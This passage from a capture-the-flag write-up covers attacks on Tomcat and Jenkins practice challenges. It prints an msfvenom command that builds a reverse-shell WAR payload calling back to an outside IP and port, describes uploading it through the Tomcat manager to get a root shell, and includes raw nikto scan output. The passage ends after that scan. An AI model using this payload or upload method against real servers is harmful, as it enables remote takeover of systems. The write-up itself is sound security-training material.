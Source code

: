 I generated a payload with `msfvenom`:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=193.161.193.99 LPORT=24193 -f war > reverseshell.war
```

I opened the file with `vim` to see the content:
```bash
vim reverseshell.war 

" zip.vim version v32
" Browsing zipfile /home/kilian/reverseshell.war
" Select a file and press ENTER

WEB-INF/
WEB-INF/web.xml
ojpbwdjo.jsp
```

I uploaded it using the form on the management page.
I opened `play.h4ck3r.one:9004/reverseshell/ojpbwdjo.jsp` and I got my shell and we are root!

I used `find / -iname 'flag*'` to find the flag in `/usr/local/tomcat/conf/FLAG.txt`.

### Jenny

I started by running `nikto`:
```bash
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          137.116.255.41
+ Target Hostname:    play.h4ck3r.one
+ Target Port:        9003
---------------------------------------------------------------------------
+ SSL Info:        Subject:  /CN=play.h4ck3r.one
                   Altnames: play.h4ck3r.one
                   Ciphers:  TLS_AES_256_GCM_SHA384
                   Issuer:   /C=US/O=Let's Encrypt/CN=R3
+ Start Time:         2022-12-10 00:05:07 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ The Content-Encoding header is set to "deflate" this may mean that the server is vulnerable to the BREACH attack.
+ Server leaks inodes via ETags, header found with file /favicon.ico, fields: 0xW/21630 0x1465480610000 
+ OSVDB-39272: favicon.ico file identifies this server as: Apache Tomcat
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ Cookie JSESSIONID created without the secure flag
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ /manager/html: Default Tomcat Manager / Host Manager interface found
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /docs/: Tomcat Documentation found
+ Uncommon header 'x-hudson-cli-port' found, with contents: 40801
+ Uncommon header 'x-instance-identity' found, with contents: MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA2caz2kFq5xG+0yUT4cxGJW7iYA4LaG0p9w4ULNnrnlVIAmOdNAefd0VELXCfl3dyPtP2LUTN1piT66vhsfzYyaD85d4vCyiyl27N5yxZY2wOqR4jBUsElHarO0iRaSHZYdg6nPPAJvRutHPcQkW/JvSvAZjgLxud3ke9ZC9ArKpWpZPdgPcRXlq1p0a7G9Ss/RbP8Nd3EsFk4julNfWwMwNM5gJ/zwKgBTxZclT0WXY/MevHGJi2At9SCCPKiSCfwxzjzp1+9KxPGyGvysJu08kehSfwT4TWDdCHQo8C8zTb3iuJDBA0sPq/dz5ETPa67vK8SnLPGtES2yJ3DTG66wIDAQAB
+ Uncommon header 'x-jenkins-cli-port' found, with contents: 40801
```
